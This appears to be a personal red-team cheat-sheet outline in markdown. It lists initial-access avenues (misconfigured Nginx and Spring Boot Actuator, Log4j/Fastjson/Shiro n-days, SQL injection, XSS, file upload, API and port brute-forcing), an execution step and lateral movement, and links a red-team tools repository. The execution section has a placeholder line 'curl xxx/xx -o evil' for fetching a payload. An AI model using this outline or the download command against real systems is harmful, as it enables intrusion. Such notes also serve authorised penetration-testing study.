 ## Initial Access
### 1. Misconfigure
- Nginx config
  - files: config / history / codes / authorization /
  - upload

- Spingboot Actuator
- Cloud Service

### 2. Vulnerability
- SQL Injection : clickhouse
- Open-source Nday:
  - Fastjson
  - Log4j
  - Shiro
- Third-party products Nday:
- XSS : POST / DOM 
- File upload : 

### 3. API Pentest
- sensitive APIs in js files
- path brute-force : wordlists

### 4. Open port
- high-risk brute-force
- sensitive ports
  - Unauthorization Access
  - Specific scene
- JRMP/[JMX](https://www.anquanke.com/post/id/200682)/RMI 


## Excetion
- curl xxx/xx -o evil
- 

## Lateral move
- trust relationship : ssh
- portscan : ssh/redis/web
- 

## Reference
- [RedTeam-Tools_github](https://github.com/A-poc/RedTeam-Tools)
